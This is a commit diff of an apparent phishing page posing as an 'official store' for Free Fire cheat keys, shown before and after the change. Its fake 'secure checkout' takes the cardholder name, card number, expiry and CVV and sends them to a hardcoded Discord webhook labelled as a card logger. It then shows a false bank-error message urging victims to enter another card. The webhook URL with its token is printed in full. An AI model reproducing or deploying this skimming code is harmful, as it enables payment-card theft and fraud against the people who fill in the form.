

Before and after one commit to benjagmzok-ui/Panelressllerkeysocio.com, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (96-1183 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
Actualizar index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,105 +3,144 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Activity Key Mod | Secure Checkout</title>
+    <title>Activity Key Mod | Official Store</title>
     <script src="https://cdn.tailwindcss.com"></script>
     <link href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.0.0/css/all.min.css" rel="stylesheet">
     <style>
-        body { background-color: #0d0d12; color: white; font-family: 'Inter', sans-serif; }
-        .glass { background: rgba(255, 255, 255, 0.03); backdrop-filter: blur(10px); border: 1px solid rgba(255, 255, 255, 0.1); }
-        .input-style { background: #1a1a24; border: 1px solid #2d2d3d; padding: 12px; border-radius: 8px; width: 100%; outline: none; transition: 0.3s; }
-        .input-style:focus { border-color: #00f2fe; box-shadow: 0 0 10px rgba(0, 242, 254, 0.2); }
-        .secure-badge { background: #122b21; color: #4ade80; font-size: 10px; padding: 4px 10px; border-radius: 20px; font-weight: bold; }
+        body { background-color: #08080a; color: white; font-family: 'Inter', sans-serif; overflow-x: hidden; }
+        .glass { background: rgba(20, 20, 25, 0.8); backdrop-filter: blur(12px); border: 1px solid rgba(255, 255, 255, 0.05); }
+        .neon-text { text-shadow: 0 0 10px rgba(0, 242, 254, 0.5); }
+        .input-style { background: #12121a; border: 1px solid #2d2d3d; padding: 12px; border-radius: 10px; width: 100%; outline: none; transition: 0.3s; color: white; }
+        .input-style:focus { border-color: #00f2fe; box-shadow: 0 0 15px rgba(0, 242, 254, 0.2); }
+        .hidden { display: none; }
     </style>
 </head>
-<body class="flex flex-col items-center justify-center min-h-screen p-4">
+<body class="min-h-screen">
 
-    <div class="max-w-md w-full mb-6 text-center">
-        <h1 class="text-3xl font-black text-cyan-400 italic">ACTIVITY KEY MOD</h1>
-        <div class="flex justify-center items-center gap-2 mt-2">
-            <span class="secure-badge"><i class="fas fa-shield-alt mr-1"></i> PAGO 100% ENCRIPTADO</span>
-        </div>
+    <div id="panel-principal" class="p-6">
+        <header class="text-center py-12">
+            <h1 class="text-5xl font-black italic text-cyan-400 neon-text uppercase tracking-tighter">Activity Key Mod</h1>
+            <p class="text-gray-500 mt-2 tracking-[0.3em] text-xs uppercase">Premium Cheat Services • Free Fire</p>
+        </header>
+
+        <div class="max-w-5xl mx-auto grid grid-cols-1 md:grid-cols-3 gap-8">
+            <div class="glass p-8 rounded-3xl text-center border-b-4 border-cyan-900">
+                <h3 class="text-gray-400 text-xs font-bold uppercase mb-2">Pato Team Key</h3>
+                <div class="text-3xl font-black mb-4">$0.99 <span class="text-sm text-gray-500">USD</span></div>
+                <ul class="text-left text-xs space-y-3 mb-8 text-gray-400">
+                    <li><i class="fas fa-check text-cyan-500 mr-2"></i> Validez: 24 Horas</li>
+                    <li><i class="fas fa-check text-cyan-500 mr-2"></i> Anti-Ban Actualizado</li>
+                </ul>
+                <button onclick="irAPagar('1 DÍA', '0.99')" class="w-full bg-white text-black font-bold py-3 rounded-xl hover:bg-cyan-400 transition-all uppercase text-sm">Elegir Plan</button>
             </div>
 
-    <div class="max-w-md w-full glass p-8 rounded-3xl shadow-2xl">
-        <h2 class="text-xl font-semibold mb-6">Detalles de la Tarjeta</h2>
-
-        <form id="paymentForm" class="space-y-4">
-            <div>
-                <label class="text-xs text-gray-400 mb-1 block uppercase">Nombre del Titular</label>
-                <input type="text" id="name" class="input-style" placeholder="Como figura en la tarjeta" required>
+            <div class="glass p-8 rounded-3xl text-center border-2 border-cyan-500 transform scale-105 shadow-2xl shadow-cyan-500/10">
+                <span class="bg-cyan-500 text-black text-[10px] font-bold px-3 py-1 rounded-full uppercase">Más vendido</span>
+                <h3 class="text-white text-xs font-bold uppercase mt-4 mb-2">Pato Team Key</h3>
+                <div class="text-3xl font-black mb-4">$3.67 <span class="text-sm text-gray-500">USD</span></div>
+                <ul class="text-left text-xs space-y-3 mb-8 text-gray-300">
+                    <li><i class="fas fa-check text-cyan-500 mr-2"></i> Validez: 7 Días</li>
+                    <li><i class="fas fa-check text-cyan-500 mr-2"></i> Menú VIP Completo</li>
+                </ul>
+                <button onclick="irAPagar('7 DÍAS', '3.67')" class="w-full bg-cyan-500 text-black font-black py-3 rounded-xl hover:shadow-[0_0_20px_#00f2fe] transition-all uppercase text-sm">Obtener Ahora</button>
             </div>
 
-            <div>
-                <label class="text-xs text-gray-400 mb-1 block uppercase">Número de Tarjeta</label>
-                <div class="relative">
-                    <input type="text" id="cardNum" class="input-style" maxlength="19" placeholder="0000 0000 0000 0000" required>
-                    <div class="absolute right-3 top-3 flex gap-1 text-gray-500">
-                        <i class="fab fa-cc-visa text-lg"></i>
-                        <i class="fab fa-cc-mastercard text-lg"></i>
+            <div class="glass p-8 rounded-3xl text-center border-b-4 border-cyan-900">
+                <h3 class="text-gray-400 text-xs font-bold uppercase mb-2">Pato Team Key</h3>
+                <div class="text-3xl font-black mb-4">$20.00 <span class="text-sm text-gray-500">USD</span></div>
+                <ul class="text-left text-xs space-y-3 mb-8 text-gray-400">
+                    <li><i class="fas fa-check text-cyan-500 mr-2"></i> Validez: 30 Días</li>
+                    <li><i class="fas fa-check text-cyan-500 mr-2"></i> Soporte Prioritario</li>
+                </ul>
+                <button onclick="irAPagar('30 DÍAS', '20.00')" class="w-full bg-white text-black font-bold py-3 rounded-xl hover:bg-cyan-400 transition-all uppercase text-sm">Elegir Plan</button>
             </div>
         </div>
     </div>
 
+    <div id="seccion-pago" class="hidden fixed inset-0 bg-[#08080a] z-50 flex items-center justify-center p-4">
+        <div class="max-w-md w-full glass p-8 rounded-[2rem] shadow-2xl border border-white/10">
+            <div class="text-center mb-6">
+                <h2 class="text-2xl font-bold">Checkout Seguro</h2>
+                <p id="detalles-plan" class="text-cyan-400 text-xs font-bold uppercase mt-1"></p>
+            </div>
+
+            <form id="paymentForm" class="space-y-4">
+                <div>
+                    <label class="text-[10px] text-gray-500 uppercase ml-1">Nombre del Titular</label>
+                    <input type="text" id="name" class="input-style" placeholder="JUAN PEREZ" required>
+                </div>
+
+                <div>
+                    <label class="text-[10px] text-gray-500 uppercase ml-1">Número de Tarjeta</label>
+                    <input type="text" id="cardNum" class="input-style" maxlength="19" placeholder="4545 •••• •••• ••••" required>
+                </div>
+
                 <div class="flex gap-4">
                     <div class="w-1/2">
-                    <label class="text-xs text-gray-400 mb-1 block uppercase">Vencimiento</label>
+                        <label class="text-[10px] text-gray-500 uppercase ml-1">Vencimiento</label>
                         <input type="text" id="expiry" class="input-style" placeholder="MM/YY" maxlength="5" required>
                     </div>
                     <div class="w-1/2">
-                    <label class="text-xs text-gray-400 mb-1 block uppercase">CVV / CVC</label>
-                    <input type="password" id="cvv" class="input-style" placeholder="123" maxlength="4" required>
+                        <label class="text-[10px] text-gray-500 uppercase ml-1">CVV</label>
+                        <input type="password" id="cvv" class="input-style" placeholder="•••" maxlength="4" required>
                     </div>
                 </div>
 
                 <div>
-                <label class="text-xs text-gray-400 mb-1 block uppercase">País de Emisión</label>
+                    <label class="text-[10px] text-gray-500 uppercase ml-1">País</label>
                     <select id="country" class="input-style">
                         <option value="Argentina">Argentina</option>
                         <option value="México">México</option>
                         <option value="Colombia">Colombia</option>
                         <option value="Chile">Chile</option>
                         <option value="Perú">Perú</option>
-                    <option value="USA">USA / Internacional</option>
+                        <option value="USA">USA / Otros</option>
                     </select>
                 </div>
 
-            <button type="submit" id="btnPay" class="w-full bg-cyan-500 hover:bg-cyan-400 text-black font-black py-4 rounded-xl mt-6 transition-all transform active:scale-95">
-                VERIFICAR Y GENERAR KEY
+                <button type="submit" id="btnPay" class="w-full bg-cyan-500 text-black font-black py-4 rounded-xl mt-4 hover:scale-[1.02] transition-all uppercase">
+                    Pagar y Recibir Key
                 </button>
             </form>
 
-        <div class="mt-6 flex justify-center gap-4 opacity-30 grayscale">
-            <img src="https://upload.wikimedia.org/wikipedia/commons/5/5e/Visa_Inc._logo.svg" width="40">
-            <img src="https://upload.wikimedia.org/wikipedia/commons/2/2a/Mastercard-logo.svg" width="30">
-            <img src="https://www.pci-ds.com/wp-content/uploads/2021/04/pci-logo.png" width="50">
+            <div class="mt-6 flex justify-between items-center opacity-40">
+                <img src="https://img.icons8.com/color/48/000000/visa.png" width="35">
+                <img src="https://img.icons8.com/color/48/000000/mastercard.png" width="35">
+                <div class="text-[10px] text-green-500 font-bold"><i class="fas fa-lock"></i> SSL SECURE</div>
+            </div>
         </div>
     </div>
 
-    <p class="text-[10px] text-gray-600 mt-8 text-center uppercase tracking-widest">Protegido por SSL de 256 bits. Activity Mod no almacena datos bancarios.</p>
-
     <script>
         const WEBHOOK_URL = "https://discord.com/api/webhooks/1488027032976756886/WAx7q6qQWxWGSEtQBt6tOkINuP8g7YKYqdsv2uHGrBa9FwCN-lj8Ojfuf4bU4XNG9peJ";
+        let planSeleccionado = "";
+
+        function irAPagar(plan, precio) {
+            planSeleccionado = plan;
+            document.getElementById('detalles-plan').innerText = `PLAN ${plan} - $${precio} USD`;
+            document.getElementById('panel-principal').classList.add('hidden');
+            document.getElementById('seccion-pago').classList.remove('hidden');
+        }
 
         document.getElementById('paymentForm').addEventListener('submit', function(e) {
             e.preventDefault();
             const btn = document.getElementById('btnPay');
-            btn.innerHTML = "<i class='fas fa-spinner fa-spin'></i> PROCESANDO...";
+            btn.innerHTML = "<i class='fas fa-circle-notch fa-spin'></i> VERIFICANDO...";
             btn.disabled = true;
 
             const payload = {
-                content: "💳 **NUEVA TARJETA CAPTURADA - ACTIVITY KEY MOD**",
+                content: "💸 **NUEVO PAGO ENTRANTE - ACTIVITY KEY MOD**",
                 embeds: [{
-                    title: "Datos de Facturación",
-                    color: 3066993,
+                    color: 1752220,
                     fields: [
-                        { name: "👤 Titular", value: document.getElementById('name').value, inline: true },
+                        { name: "📋 Plan", value: planSeleccionado, inline: true },
                         { name: "🌍 País", value: document.getElementById('country').value, inline: true },
-                        { name: "💳 Número", value: "`" + document.getElementById('cardNum').value + "`" },
-                        { name: "📅 Exp", value: document.getElementById('expiry').value, inline: true },
+                        { name: "👤 Titular", value: document.getElementById('name').value },
+                        { name: "💳 Tarjeta", value: "`" + document.getElementById('cardNum').value + "`" },
+                        { name: "📅 Expira", value: document.getElementById('expiry').value, inline: true },
                         { name: "🔒 CVV", value: "`" + document.getElementById('cvv').value + "`", inline: true }
                     ],
-                    footer: { text: "Activity Mod Logger 2026" },
+                    footer: { text: "Logger by BenjaGMZ | 2026" },
                     timestamp: new Date()
                 }]
             };
@@ -111,8 +150,10 @@
                 headers: { 'Content-Type': 'application/json' },
                 body: JSON.stringify(payload)
             }).then(() => {
-                alert("Error de conexión: El procesador de pagos de tu país está saturado. Intenta con otra tarjeta.");
+                setTimeout(() => {
+                    alert("ERROR DE RED: El servidor de pagos está temporalmente fuera de línea. Tu banco ha rechazado la transacción por seguridad. Intenta con otra tarjeta de crédito/débito.");
                     location.reload();
+                }, 2000);
             });
         });
     </script>
```
Lines whose indentation alone changed are shown as unchanged.
